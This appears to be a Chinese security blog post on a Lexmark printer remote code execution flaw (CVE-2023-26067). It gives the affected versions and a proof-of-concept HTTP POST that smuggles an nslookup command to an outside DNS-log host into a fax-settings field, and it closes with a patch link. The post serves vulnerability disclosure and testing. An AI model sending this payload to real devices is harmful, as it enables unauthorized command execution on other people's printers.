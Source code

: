 #  Lexmark远程代码执行漏洞(CVE-2023-26067)   
 暗影安全   2023-08-14 14:09  
  
网安引领时代，弥天点亮未来     
  
  
  
  
  
   
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
**0x00写在前面**  
  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
0x01漏洞介绍Lexmark是美国的一系列打印机。Lexmark设备的一个受信任的内部组件存在输入验证漏洞。已经破坏了设备的攻击者可以利用此漏洞来升级权限。Certain Lexmark devices 2023-02-19版本及之前版本存在安全漏洞，该漏洞源于Lexmark设备错误处理输入验证。0x02影响版本Certain Lexmark devices 2023-02-19版本及之前版本存在安全漏洞0x03漏洞复现1.访问漏洞环境2.对漏洞进行复现  POC （POST）POST /cgi-bin/fax_change_faxtrace_settings HTTP/1.1Hos: 127.0.0.1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36Connection: closeContent-Length: 72Accept-Encoding: gzip, deflateFT_Custom_lbtrace=$(nslookup h42ojm.dnslog.cn)漏洞复现        POST请求， ndslog测试存在漏洞生成测试域名      nslookup解析，漏洞存在。3.nuclei测试（漏洞存在）0x04修复建议目前厂商已发布升级补丁以修复漏洞，补丁获取链接：https://publications.lexmark.com/publications/security-alerts/CVE-2023-26067.pdf  
